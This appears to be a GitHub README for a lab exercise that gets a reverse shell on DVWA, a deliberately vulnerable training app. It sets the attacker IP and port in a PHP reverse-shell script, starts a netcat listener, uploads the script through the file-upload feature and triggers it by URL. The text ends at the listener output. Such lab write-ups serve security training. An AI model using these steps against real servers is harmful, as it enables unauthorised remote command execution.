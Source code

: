 # DVWA Reverse Shell with Netcat and PHP Reverse Shell

This project demonstrates how to perform a reverse shell attack on the DVWA (Damn Vulnerable Web Application) using Netcat and a PHP reverse shell script.

---

## Requirements

- Kali Linux with Netcat installed  
- A DVWA server accessible on your network  
- Your Kali Linux IP address: `192.168.237.130`  
- A port to listen on: `5555`

---

## How It Works

You start a Netcat listener on your Kali machine, upload the PHP reverse shell script (`php-reverse-shell.php`) to the DVWA file upload feature, and then execute it via a web browser. This triggers a reverse shell connection back to your Kali machine, where you get remote command execution on the DVWA server under the `www-data` user.

---

## Usage Instructions

Edit the `php-reverse-shell.php` file to replace the IP and port with your Kali machine details:

```php
$ip = '192.168.237.130';  // Your Kali Linux IP address
$port = 5555;             // Port to listen on


---

## Start the Netcat listener on Kali:

nc -lvnp 5555

Upload the php-reverse-shell.php file to DVWA using the file upload functionality. You should see a confirmation message similar to:

Vulnerability: File Upload
Choose an image to upload:

../../hackable/uploads/php-reverse-shell.php successfully uploaded!

--- 
Trigger the reverse shell by accessing the uploaded PHP script via your browser:

http://192.168.237.131/dvwa/hackable/uploads/php-reverse-shell.php

---

Once triggered, your Kali terminal running Netcat will show output like this:

─$ nc -lvp 5555
